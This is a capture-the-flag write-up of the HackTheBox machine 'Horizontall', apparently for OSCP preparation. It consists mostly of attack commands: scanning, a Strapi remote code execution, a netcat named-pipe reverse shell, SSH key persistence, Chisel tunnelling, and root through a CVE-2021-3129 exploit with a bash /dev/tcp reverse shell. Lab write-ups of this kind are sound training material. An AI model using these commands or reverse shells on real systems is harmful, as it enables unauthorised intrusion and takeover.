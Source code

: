 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Foothold
### Nmap Scan
```bash
nmap -p- -T4 -oA scans/nmap-alltcp 10.129.61.76
```

### /etc/hosts Update
```bash
echo "10.129.61.76 horizontall.htb" | sudo tee -a /etc/hosts
```

### Virtual Host Discovery
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.61.76 -H "Host: FUZZ.horizontall.htb" --fs 194
```

### [Gobuster on API Virtual Host](HTTP)
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_api-prod.horizontall_medium_php-html-txt.txt
```

---

## ⚙️ Exploiting Strapi (Unauthenticated RCE)

### Confirming RCE (Blind)
```bash
tcpdump -i tun0 icmp
```
Send Ping via Exploit ➡️ receive ICMP in tcpdump.

### Reverse Shell Payload
```bash
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 80 >/tmp/f
```

---

## 🔑 Persistence via [SSH](SSH) Key
```bash
# On victim
mkdir /opt/strapi/.ssh
vim /opt/strapi/.ssh/authorized_keys

# On attacker
ssh-keygen -f strapi
scp strapi.pub to victim and paste into authorized_keys

# SSH access
ssh strapi@horizontall.htb -i strapi
```

---

## 🔍 Enumeration
### Database Creds
Found in:
```bash
/opt/strapi/myapi/config/environments/development/database.json
```

### Connect to MySQL
```bash
mysql -h 127.1 -u developer -p
```

### Open Ports (Local)
```bash
netstat -tulnp
```
Found: 1337, 8000

---

## 🔁 Port Forwarding with Chisel

### Start Chisel Server (Kali)
```bash
./chisel server --port 9000 --reverse
```

### Start Chisel Client (Victim)
```bash
./chisel client 10.10.16.5:9000 R:1234:127.0.0.1:8000
```

---

## 🕵️‍♂️ Web Enumeration on Laravel (p8000)
```bash
gobuster dir -u http://127.0.0.1:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_p8000_medium_php-html-txt.txt
```

Discovered: `/profiles`
Path leaked: `/home/developer/myproject/resources/views/profile/index.blade.php`

---

## 🧨 Privilege Escalation (Laravel RCE)

### CVE-2021-3129 Exploit
```bash
git clone https://github.com/joshuavanderpoll/CVE-2021-3129
python3 CVE-2021-3129.py --url http://127.0.0.1:1234 --exec 'bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"' --force
```

### Netcat Listener
```bash
nc -lnvp 443
```

---

## ✅ Root Access
Confirmed reverse shell drops as `root`.

---

## 📚 Resources
- Chisel: https://github.com/jpillora/chisel
- Strapi Exploit: https://www.exploit-db.com/exploits/50239
- Laravel Exploits:
  - https://www.exploit-db.com/exploits/49424
  - https://github.com/joshuavanderpoll/CVE-2021-3129